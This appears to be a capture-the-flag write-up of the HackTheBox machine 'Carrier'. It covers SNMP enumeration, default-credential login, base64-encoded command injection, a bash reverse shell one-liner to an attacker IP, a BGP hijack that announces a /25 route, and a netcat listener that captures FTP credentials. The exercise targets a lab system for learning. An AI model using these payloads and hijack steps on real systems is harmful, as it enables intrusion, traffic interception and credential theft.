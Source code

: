 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-03-16-carrier-hackthebox
tags:
- bgp hijacking
- command injection
- hackthebox
- linux
- snmp
title: Carrier @ HackTheBox
---
```


Carrier is a nice, medium difficulty machine on [hackthebox.eu](https://www.hackthebox.eu) featuring information retrieval via snmp, command injection and bgp hijacking. The bgp hijacking part was a nice learning experience as this is a technique you probably don’t see every day.

## User Flag

We start by scanning the box with nmap and get the following ports:

```
nmap -Pn -sV -sC -p- -oA tcp_all 10.10.10.105
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
```

```
nmap -Pn -sV -sC -sU --top-ports=50 -oA udp50 10.10.10.105
161/udp   open   snmp            SNMPv1 server; pysnmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: pysnmp
|   engineIDFormat: octets
|   engineIDData: 77656201d7f908
|   snmpEngineBoots: 2
|_  snmpEngineTime: 5m30s
```

A quick snmpwalk (`snmpwalk 10.10.10.105 -c public -v1`) shows just one result, which looks like some sort of serial number:

```
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
```

The next thing to look at is the web application on port 80. As trying various default credentials yields no results we start looking for web content and find the following:

```
wfuzz --hc 404,403 -w ~/tools/SecLists/Discovery/Web-Content/raft-large-words.txt http://carrier.htb/FUZZ
000015:  C=301      9 L       28 W      307 Ch    "js"
000021:  C=301      9 L       28 W      308 Ch    "css"
000060:  C=301      9 L       28 W      308 Ch    "img"
000169:  C=301      9 L       28 W      310 Ch    "tools"
000353:  C=301      9 L       28 W      308 Ch    "doc"
000408:  C=301      9 L       28 W      310 Ch    "fonts"
000688:  C=301      9 L       28 W      310 Ch    "debug"
```

Looking at the subdirectories in a web browser shows that they are listable! In "doc" we find a pdf manual of the system, in which it explains the status code we saw on the login page with `45009 - System credentials have not been set. Default admin user password is set (see chassis serial number)`. With this knowledge we go back to the login page and login with `admin:NET_45JDX23`, the password being the serial number we retrieved via snmp earlier:

![](htb_carrier_logged_in.png)

The "Diagnostics" menu lets us issue a post request to the server with the parameter `check=cXVhZ2dh`:

![](htb_carrier_diagnostics.png)

After decoding the base64 with `echo -ne "cXVhZ2dh" | base64 -d` we get the string "quagga". Playing a bit with the parameter we discover that it is possible to inject commands by simply appending them and encoding in base64 again:

```
echo -ne "quagga; whoami; id" | base64

check=cXVhZ2dhOyB3aG9hbWk7IGlk

<p>root</p><p>uid=0(root) gid=0(root) groups=0(root)</p>
```

To get a shell we use a basic bash one liner, encode and execute it, which leads to shell as root and reveals the user flag:

```
echo -ne 'quagga; /bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1' | base64
cXVhZ2dhOyAvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQvNTU1NSAwPiYx
```

## Root Flag

Despite being root on the box we do not have any root flag yet so there has to be more to it. Going back to the webapp we can see several tickets which talk about several BGP related things, including this message:

```
...
Still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network, investigating... 
```

What this is hinting at, is that we have several networks that use bgp to communicate and that there is potential clear text authentication being send over them with ftp. Looking at netstat confirms its bgp, as we have zebra and bgpd running:

```
tcp        0      0 127.0.0.1:2601          0.0.0.0:*               LISTEN      112        7806242     62602/zebra 
tcp        0      0 127.0.0.1:2605          0.0.0.0:*               LISTEN      112        7806244     62606/bgpd  
tcp        0      0 0.0.0.0:179             0.0.0.0:*               LISTEN      112        7805245     62606/bgpd  
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          44065       477/sshd    
tcp6       0      0 :::179                  :::*                    LISTEN      112        7805246     62606/bgpd  
tcp6       0      0 :::22                   :::*                    LISTEN      0          44070       477/sshd 
```

Now lets look at how zebra is configured in "/etc/quagga/bgpd.conf":

```
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
```

What we see here is that this machine is configured under the name "100" and is advertising the networks 10.101.8.0/21 and 10.101.16.0/21 as locally connected to its neighbors. In addition we see under which ip addresses we can reach the other routers.

Another important piece of information is in `ip route`, where we can see that some of the subnets are passed to "200" and some to "300":

```
10.78.10.0/24 dev eth1  proto kernel  scope link  src 10.78.10.1
10.78.11.0/24 dev eth2  proto kernel  scope link  src 10.78.11.1
10.99.64.0/24 dev eth0  proto kernel  scope link  src 10.99.64.2
10.100.10.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.11.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.12.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.13.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.14.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.15.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.16.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.17.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.18.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.19.0/24 via 10.78.10.2 dev eth1  proto zebra
10.100.20.0/24 via 10.78.10.2 dev eth1  proto zebra
10.120.10.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.11.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.12.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.13.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.14.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.15.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.16.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.17.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.18.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.19.0/24 via 10.78.11.2 dev eth2  proto zebra
10.120.20.0/24 via 10.78.11.2 dev eth2  proto zebra
```

Having this information, in combination with the message from the webapp, leads to the following plan: Redirect traffic send from "200" to 10.120.15.0/24 in "300" through our router by advertising false routes. This technique is called bgp hijacking, an excellent guide can be found [here](https://www.isi.deterlab.net/file.php?file=/share/shared/BGPhijacking).

In order to execute the attack we first modify bgpd.conf so that our router is now advertising the 10.120.15.0/25 network as directly connected:

```
vtysh
r1> en
r1# conf t
r1(config)# router bgp 100
r1(config-router)# network 10.120.15.0/25
r1(config-router)# end
r1# wr
r1# exit
```

The reason the target subnet is advertised as /25 instead of /24 is that more specific subnets are given priority in bgp routing. We could redirect the traffic the to original target, but since we are interested in ftp credentials an easy way is to pose as the target by adding its ip to the box we are on and starting a local listener on port 21:

```
ip a add 10.120.15.10/24 dev eth2
nc -lvp 21
```

After a moment we get a connection! To emulate a ftp server we have to respond manually with "331 Please specify the password." to make the client send its authentication:

![](htb_carrier_ftp_capture.png)

We can now use the credentials "root:BGPtelc0rout1ng" we obtained to log into the ftp server "10.120.15.10" (after removing the ip from our interface) where we find the root flag:

```
150 Here comes the directory listing.
-r--------    1 0        0              33 Jul 01 15:58 root.txt
-rw-------    1 0        0              33 Dec 27 12:11 secretdata.txt
...
```

Many thanks to [snowscan](https://twitter.com/snowscan) for creating this fun box.